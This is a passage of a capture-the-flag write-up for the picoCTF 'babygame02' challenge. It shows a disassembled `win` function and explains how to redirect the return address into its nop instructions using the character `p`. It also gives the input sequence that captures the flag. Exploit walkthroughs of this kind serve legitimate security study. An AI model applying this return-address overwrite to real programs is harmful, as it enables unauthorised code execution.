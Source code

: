 This would call `win`. Which should get the flag. But there is a catch. `]` doesn't work on the remote instance. To get around this. We need to notice the assembly for `win`.
```console
Dump of assembler code for function win:
   0x0804975d <+0>:	push   ebp
   0x0804975e <+1>:	mov    ebp,esp
   0x08049760 <+3>:	push   ebx
   0x08049761 <+4>:	sub    esp,0x44
   0x08049764 <+7>:	call   0x8049140 <__x86.get_pc_thunk.bx>
   0x08049769 <+12>:	add    ebx,0x2897
   0x0804976f <+18>:	nop
   0x08049770 <+19>:	nop
   0x08049771 <+20>:	nop
   0x08049772 <+21>:	nop
   0x08049773 <+22>:	nop
   0x08049774 <+23>:	nop
   0x08049775 <+24>:	nop
   0x08049776 <+25>:	nop
   0x08049777 <+26>:	nop
   0x08049778 <+27>:	nop
...
```

With the `nop`s. We can replace the return address with any one of the `nop` address. `0x70` is `p`.

With `]` replaced by `p`.
```console
aaaa
wwwww
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
lp
s
```

This will get you the flag.


## References
<https://blog.ry4n.org/babygame02-picoctf-writeup-6bf57b54f7b3>


